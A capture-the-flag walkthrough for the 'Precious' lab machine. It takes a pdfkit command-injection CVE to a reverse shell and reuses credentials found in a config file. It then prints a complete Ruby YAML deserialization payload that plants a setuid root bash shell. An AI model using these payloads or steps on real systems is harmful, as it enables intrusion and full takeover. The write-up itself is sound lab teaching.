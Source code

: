 ### Task 1

Nginx is running with what additional software designed to serve web applications?

Navigating to the target IP address we are being redirected to the domain ``precious.htb``. We then add it to the hosts file ``vim /etc/hosts`` and reload the page.

![alt text](image-pr-14.png)

After reloading the page, we see that the website's usage is converting web page to pdf.

![alt text](image-pr-15.png)

We then run ``whatweb <target_url> -v`` and find that additional to nginx web server, the software running is Phusion Passenger.

![alt text](image-pr-16.png)

### Task 2 

Which HTTP response header reveals the underlying scripting Language of the web application?

From the same response of ``whatweb``, we see the HTTP response header that specifies the scripting language.

![alt text](image-pr-17.png)

### Task 3 

Which Ruby library are the PDF documents generated with?

Providing a public url to be converted, we can the error Cannot load remote URL. 

![alt text](image-pr-18.png)

Instead, we start a Python HTTP server by running ``python3 -m http.server 8080``. Then we can provide the IP address of the host machine to be converted as ``http://<host_ip>:8080`` and get a pdf file back.

Running ``exiftool`` against the pdf file we get the information we need about the Ruby library.

![alt text](image-pr-19.png)

### Task 4

Which 2022 CVE applies to that specific version of pdfkit?

By a quick google search we can find the CVE ID 2022-25765 of the Command Injection vulnerability.

### Task 5

Which directory located in the running user's home directory is used by Bundler to store configuration files?

Using a PoC for the CVE that can be found at [text](https://github.com/shamo0/PDFkit-CMD-Injection), we start a python server again with the same command ``python3 -m http.server 8080`` and listener on port 4444 ``nc -lvnp 4444``. Then we send the curl exploit and we are connected on the target machine. 

![alt text](image-pr-20.png)

Moving to rubycd home directory and running ``ls -a`` to list the directories, including the hidden ones, we see the .bundle file that contains the configuration files.

### Task 6

Sumbit the flag located in the henry user's home directory.

Inside the .bundle directory we open the config file and get the credentials for the user henry.

![alt text](image-pr-22.png)

Then, we switch to the henry user by running ``su - henry`` and provide the password from before. Running ``whoami`` shows us that we are now user henry.

After navigating to the henry user's home directory and running ``cat user.txt`` we get the user flag.

### Task 7

Which command can henry run with sudo, without providing a password?

We are now gonna run the ``LinEnum.sh`` script to enumerate the host. For that purpose, we first get the script on our host machine and then open a Python server on port 8888 on the directory the script is at. Then, on the target machine we run ``wget http://<host_ip>:8888/LinEnum.sh``. Looking through the result we see that the user henry can sudo the command ``/usr/bin/ruby /opt/update_dependencies.rb``.

![alt text](image-pr-23.png)

### Task 8 

Which is the name of the file that allows for user-controlled input to the update_dependencies.rb script?

Opening the file by `` cat /opt/update_dependencies.rb`` we see that the file used is ``dependencies.yml``.

![alt text](image-pr-24.png)

### Task 9

Submit the flag located in root's home directory.

First, we inspect the file ``update_dependencies.rb`` and see that there is an unsafe load of the file that allows for user-controlled input.

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

The ``YAML.load()`` deserializes YAML into Ruby objects in an insecure way that can lead to arbitary code execution. Based on this gist [text](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) we craft the following payload and we place it in the henry's home directory.

```

cat << 'EOF' > dependencies.yml
--- 
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
        debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
            git_set: cp /bin/bash /tmp/dani; chmod +6777 /tmp/dani
          method_id: :resolve
EOF
``` 

We run the script as root ``sudo /usr/bin/ruby /opt/update_dependencies.rb`` that is possible without providing password and then use the command ``/tmp/dani -p`` which launches a new shell. The ``-p`` flag tells bash to preserve the effective UID, which is 0 meaning root thanks to the setuid bit of the chmod command. Finally navigating to the ``/root`` directory and ``cat root.txt`` gives us the root flag.
